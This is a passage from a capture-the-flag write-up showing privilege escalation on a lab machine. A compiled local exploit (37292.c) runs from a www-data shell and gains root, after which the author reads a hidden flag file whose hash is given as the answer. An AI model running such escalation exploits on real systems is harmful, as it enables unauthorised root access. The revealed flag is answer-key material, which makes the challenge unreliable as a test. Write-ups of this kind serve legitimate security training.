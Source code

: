 Don’t mind with the _warning_ lines and verify that the `37292.c` has been compiled successfully to `exploit`:

```
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ls -l exploit
ls -l exploit
-rwxrwxrwx 1 www-data www-data 13773 Sep  3 09:50 exploit
```

The final step is execute the compiled payload and become **root** user:

```
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: No such file or directory
```

It’s a little bit tricky here that the flag is not usually in the `root.txt` file → I navigate to the `/root/` directory and looking for the flag:

```
# cd /root/
cd /root/
# ls -l
ls -l
total 0
# ls -la
ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
cat .flag.txt
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

<p class="message">
✅ The answer: <strong>568628e0d993b1973adc718237da6e93</strong>

</p>
